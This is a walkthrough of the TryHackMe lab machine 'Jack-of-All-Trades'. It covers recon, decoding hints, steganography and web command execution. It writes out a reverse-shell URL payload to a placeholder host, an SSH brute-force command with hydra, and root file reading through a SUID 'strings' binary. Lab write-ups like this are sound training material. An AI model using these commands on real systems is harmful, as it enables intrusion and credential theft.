






# [Jack-of-All-Trades](https://tryhackme.com/room/jackofalltrades)

First as always, `nmap`

```
# Nmap 7.91 scan initiated Fri Jul 23 03:46:29 2021 as: nmap -p22,80 -sCV -oN nmap box.ip
Nmap scan report for box.ip (10.10.192.44)
Host is up (0.49s latency).

PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 23 03:47:28 2021 -- 1 IP address (1 host up) scanned in 58.45 seconds
```

Unlike usual, we have SSH on port 80 and HTTP on port 22. Let's first check out the web service on port 22.

We see the user named "Jack", a potential username noted. Viewing the source of the page ...



... we see a note pointing us to the page at `/recovery.php`, as well as a base64-encoded string which when decoded says the following:

> Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u\*\*\*\*

Another name: "Johny Graves", more potential usernames.

Going to `/recovery.php`, we see username & password fields for login. Looking at its source, we see another long comment, so let's make note of it.



Trying the found usernames with the above password don't work, so let's think outside the box and do some OSINT.

Looking up the person named "Johny Graves" in the message, with double quotes to filter out named-alikes, we find his MySpace page.



Visiting his MySpace profile, we see his "favorite crypto method".



> My Favourite Crypto Method:First encode your message with a ROT13 cipher. Next Convert it to Hex. Finally convert the result into Base32.It's uncrackable!

The long comment in the source code of `/recovery.php` looks like base32. Knowing the encoding method, we can easily reverse it in [CyberChef](https://gchq.github.io/CyberChef.) and get another message.



> Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S

Visiting the page `bit.ly/2TvYQ2S` gets us to a Wikipedia page about the [Stegosauria](https://en.wikipedia.org/wiki/Stegosauria) so I'm guessing it's pointing us towards steganography. Going back to the initial landing page, we have a Stegosauria image, so let's download it and try some stego tools on it.

Running `steghide` on it with the previously found password `u****`, we get the file `creds.txt`.

```sh
$ steghide extract -sf stego.jpg
Enter passphrase:
wrote extracted data to "creds.txt".
Z ❯ ~/ctf/thm/jackofalltrades
$ steghide extract -sf stego.jpg
Enter passphrase:

Z ❯ ~/ctf/thm/jackofalltrades
$ cat creds.txt
Hehe. Gotcha!

You're on the right path, but wrong image!
```

There was and image of a jack in the box, so let's do the same on it.

```sh
Z ❯ ~/ctf/thm/jackofalltrades
$ steghide extract -sf jackinthebox.jpg
Enter passphrase:
steghide: could not extract any data with that passphrase!
```

Looking back, there's still 1 image left: the header, so let's try the same thing.

```sh
Z ❯ ~/ctf/thm/jackofalltrades
$ cat cms.creds
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: ********
```

Using the found credentials, we can log into `/recovery.php` and on the logged in page we have a message.

> GET me a 'cmd' and I'll run it for you Future-Jack.

This seems to be telling us to put a `cmd=` parameter in a `GET` request to have the server run some code, so let's try that.



Seems we have code execution so let's get a reverse shell.

```sh
http://box.ip:22/nnxhweOV/index.php?cmd=bash%20-c%20'exec%20bash%20-i%20&%3E/dev/tcp/YOUR_IP/1337%20%3C&1'
```

Unfortunately, we can't seem to get a shell so let's manually enumerate. I created a small script to make it easier, but you can do it in the browser.

Looking at `/home`, we seem to have 2 files with about the same name: "jacks_password_list"

```sh
>>> ls -la /home
drwxr-xr-x  3 root root 4096 Feb 29  2020 .
drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
```

Running `cat /home/jacks_password_list` gives us a password list we can use for brute-forcing. Besides the `/recovery.php` page, the only thing we currently need credentials for is SSH so let's brute-force it with the username "jack".

```sh
$ hydra -l jack -P pass box.ip ssh -s 80
```

With this, we have credentials for SSH as jack on the machine.

```sh
jack@jack-of-all-trades:~$ ls
user.jpg
```

The user flag is in `user.jpg` so we copy it to our local machine.

```sh
scp -P 80 jack@box.ip:user.jpg .
```

If, like me, you're too lazy to type out the flag, you can extract the text & flag with `tesseract`

```sh
tesseract user.jpg user
```

A common method of privilege escalation is through SUID bits, so let's look for binaries with SUID bit set

```sh
jack@jack-of-all-trades:~$ find / -perm /4000 -user root -ls 2>/dev/null
135127  456 -rwsr-xr-x   1 root     root       464904 Mar 22  2015 /usr/lib/openssh/ssh-keysign
134730  288 -rwsr-xr--   1 root     messagebus   294512 Feb  9  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
135137   12 -rwsr-xr-x   1 root     root        10248 Apr 15  2015 /usr/lib/pt_chown
132828   44 -rwsr-xr-x   1 root     root        44464 Nov 20  2014 /usr/bin/chsh
132826   56 -rwsr-xr-x   1 root     root        53616 Nov 20  2014 /usr/bin/chfn
133088   40 -rwsr-xr-x   1 root     root        39912 Nov 20  2014 /usr/bin/newgrp
133270   28 -rwsr-x---   1 root     dev         27536 Feb 25  2015 /usr/bin/strings
133273  148 -rwsr-xr-x   1 root     root       149568 Mar 12  2015 /usr/bin/sudo
133111   56 -rwsr-xr-x   1 root     root        54192 Nov 20  2014 /usr/bin/passwd
132940   76 -rwsr-xr-x   1 root     root        75376 Nov 20  2014 /usr/bin/gpasswd
133161   88 -rwsr-sr-x   1 root     mail        89248 Feb 11  2015 /usr/bin/procmail
138022 3052 -rwsr-xr-x   1 root     root      3124160 Feb 17  2015 /usr/sbin/exim4
    85   40 -rwsr-xr-x   1 root     root        40000 Mar 29  2015 /bin/mount
   131   28 -rwsr-xr-x   1 root     root        27416 Mar 29  2015 /bin/umount
   114   40 -rwsr-xr-x   1 root     root        40168 Nov 20  2014 /bin/su
```

Here, we can see `strings` with SUID set, which is unusual given its application. Following [GTFObins](https://gtfobins.github.io/gtfobins/strings/#suid), we can read the root flag with `strings`.

```sh
jack@jack-of-all-trades:~$ strings /root/root.txt
```

With that, we should have the root flag.
